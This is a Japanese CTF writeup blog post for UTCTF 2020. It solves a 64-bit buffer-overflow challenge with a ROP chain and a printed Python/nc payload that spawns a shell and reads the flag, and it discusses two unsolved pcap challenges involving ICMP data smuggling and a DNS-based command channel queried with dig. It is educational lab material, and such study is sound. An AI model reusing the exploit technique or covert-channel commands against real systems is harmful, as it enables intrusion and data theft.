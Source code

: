 ```yaml
---
title: "UTCTF 2020 Writeup"
date: 2020-03-09T22:00:00+09:00
lastmod: 2020-03-09T22:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF", "Reviewed"]
categories: ["CTF"]
author: ""
---
```

{{% right %}}
<a href="https://translate.google.com/translate?hl=en&sl=ja&tl=en&u=https%3A%2F%2Fcaptureamerica.github.io%2Fwriteups%2Fpost%2Futctf_2020%2F">
<img src="https://captureamerica.github.io/writeups/img/En.png" alt="English">
</a>
{{% /right %}}

URL: [https://utctf.live/challenges](https://utctf.live/challenges)
<br /><br />
えと、簡単なのしか解いてないので、テキトーです。

<br /><br />

<img src="https://captureamerica.github.io/writeups/img/utctf_2020_Score1.png" alt="utctf_2020_Score1.png">


<br /><br />
## [Pwn]: bof
- - -
### Challenge
> nc binary.utctf.live 9002

Attachment:

- pwnable (ELF 64bit)


<br />
### Solution
Ghidraでソースを確認します。

```C
undefined8 main(void)
{
  char local_78 [112];
  
  puts("I really like strings! Please give me a good one!");
  gets(local_78);
  puts("Thanks for the string");
  return 1;
}

void get_flag(int param_1)
{
  char *local_18;
  undefined8 local_10;
  
  if (param_1 == -0x21524111) {
    local_18 = "/bin/sh";
    local_10 = 0;
    execve("/bin/sh",&local_18,(char **)0x0);
  }
  return;
}
```

<br>
<pre>
captureamerica@kali:~/CTF/UTCTF_2020$ checksec ./pwnable 
[*] '/home/captureamerica/CTF/UTCTF_2020/pwnable'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
</pre>

タイトル通りBuffer Overflowのチャレンジで、get_flagを正しい引数で呼べたら/bin/shが呼ばれる、というやつです。

あと、これは64bitです。

<br>
pop rdi ; retを使います。
<pre>
captureamerica@kali:~/CTF/UTCTF_2020$ ROPgadget --binary pwnable | grep ret | grep ": pop"
0x000000000040068c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040068e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400690 : pop r14 ; pop r15 ; ret
0x0000000000400692 : pop r15 ; ret
0x0000000000400582 : pop rbp ; mov byte ptr [rip + 0x200abe], 1 ; ret
0x000000000040068b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040068f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400520 : pop rbp ; ret
0x000000000040028e : pop rbp ; retf 0x2d9e
0x0000000000400693 : pop rdi ; ret   <--- これ
0x0000000000400691 : pop rsi ; pop r15 ; ret
0x000000000040068d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
</pre>

<br>
get_flag()関数のアドレス
<pre>
gef➤  x get_flag
0x4005ea <get_flag>:	0xe5894855
</pre>

<br>
引数はよくある0xdeadbeefです。（0xffffffffを足しているんで、更に+1します）
<pre>
captureamerica@kali:~/CTF/UTCTF_2020$ python3
>>> hex(-0x21524111+0xffffffff)
'0xdeadbeee'
</pre>


<br>
以下でフラグゲット。
<pre>
captureamerica@kali:~/CTF/UTCTF_2020$ (python -c "print('a'*112+'a'*8+'\x93\x06\x40\x00\x00\x00\x00\x00'+'\xef\xbe\xad\xde\x00\x00\x00\x00'+'\xea\x05\x40\x00\x00\x00\x00\x00')" ; cat - ) | nc binary.utctf.live 9002
I really like strings! Please give me a good one!
Thanks for the string
id
uid=1000(stackoverflow) gid=1000(stackoverflow) groups=1000(stackoverflow)
ls
flag.txt
cat flag.txt
utflag{thanks_for_the_string_!!!!!!}
</pre>


<br />
Flag: `utflag{thanks_for_the_string_!!!!!!}`


<br /><br />
<br /><br />
さて、ここから下は、解きたかったけど解けなくて諦めたやつです。

## [Network]: Nittaku 3 Star Premium
- - -
### Challenge
> I found some weird data while monitoring my network, but I didn't catch it all. See if you can make sense of it.

Attachment:

- capture.pcap

<br />
### (Unsolved)
ICMP（ping）に大きなデータがついてます。だからチャレンジ名がNittaku 3 star (ピンポン玉) なんですね。なかなかネーミングセンスがいいです。

4つに分かれているので、ひとつにまとめて、base64デコードするとgzファイルになって中にflag.pngが入ってます。

ただし、壊れたgzファイルになっちゃうので、フラグが部分的にしか取れませんでした。。。


<br /><br />
<br /><br />
(2020/03/09 - Writeup見ました。)

フラグの続きは実際にPingをして取ってこないといけなかったようですね。ふーん。




<br /><br />
<br /><br />
## [Network]: Do Not Stop
- - -
### Challenge
> One of my servers was compromised, but I can't figure it out. See if you can solve it for me!

Attachment:

- capture.pcap

<br />
### (Unsolved)
DNSがbas64エンコードされています。肝心なフラグの中身はpcapの中には含まれていないようです。

DNSサーバが35.188.185.68なので、そこに対して`cat flag.txt`をbase64エンコードしたものをクエリーするとフラグが取れると思ったんですが、DNSサーバに繋がらなくてダメでした。。。

Discordでも、サーバに繋がらないよ〜って言っている人が何人かいたんですけど、Adminの人はサーバ動いているよ、って言っているし。


<pre>
captureamerica@kali:~$ dig -t TXT Y2F0IGZsYWcudHh0Cg== @35.188.185.68

; <<>> DiG 9.11.5-P4-5.1+b1-Debian <<>> -t TXT Y2F0IGZsYWcudHh0Cg== @35.188.185.68
;; global options: +cmd
;; connection timed out; no servers could be reached
</pre>


<br /><br />
<br /><br />
(2020/03/09 - Writeup見ました。)

なんか、クエリーを投げるDNSサーバは35.188.185.68じゃなかったみたいです。。。




<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />

